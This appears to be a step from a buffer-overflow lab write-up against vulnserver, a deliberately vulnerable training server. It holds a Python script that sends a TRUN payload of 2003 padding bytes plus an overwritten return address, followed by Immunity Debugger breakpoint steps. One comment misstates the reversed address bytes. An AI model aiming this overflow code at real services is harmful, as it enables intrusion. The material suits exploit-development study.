 *shellcode.py*
```python
#!/usr/bin/python

import sys, socket

host = '172.16.10.101'
port = 9999

        # first return address 625011af
        # \xaf\x11\x50\xaf
        # in reverse (intel processor little endian)
        # high order byte; highest address
        # low order byte; lowest address

shellcode = 'A' * 2003 + '\xaf\x11\x50\x62'

def inject_shellcode(host, port, payload):

        while True:
                try:
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((host, port))

                        s.send(('TRUN /.:/' + payload))
                        s.close()

                except:
                        print "Error connecting to the server.."
                        sys.exit()


if __name__ == '__main__':
        inject_shellcode(host, port, shellcode)
```

> Modified the script and added the return address to the shellcode.
> Investigate JMP pointer and set a breakpoint after overflowing the buffer

On Immunity:
- Press the right arrow (blue)
- set the return address 625011af
- press f2 after finding the jmp address (breakpoint)

![break_point](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/break_point.png)
